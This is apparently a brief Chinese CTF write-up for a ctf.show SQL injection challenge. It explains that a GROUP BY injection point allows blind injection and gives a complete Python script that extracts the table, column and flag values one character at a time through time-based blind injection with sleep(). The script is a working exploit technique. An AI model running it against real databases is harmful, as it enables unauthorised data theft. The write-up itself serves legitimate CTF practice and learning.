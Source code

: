 group by 可以进行时间盲注，布尔盲注等

本来以为是报错注入的，发现好像不太行

还是的时间盲注

拿前面的盲注脚本改一改

```python
import requests
import time
url = "http://529d9311-c036-4831-bfa1-b2ca91dae190.challenge.ctf.show/api/?u="
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        # 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名字
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flaga' limit 1,1"
        # 爆字段
        payload = "select flagaabc from ctfshow_flaga"

        data = f"concat((if (ascii(substr(({payload}),{i},1))>{mid}, sleep(0.05), 2)), 1);"

        try:
            r = requests.post(url+data, timeout=0.05)
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            time.sleep(0.2)
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```
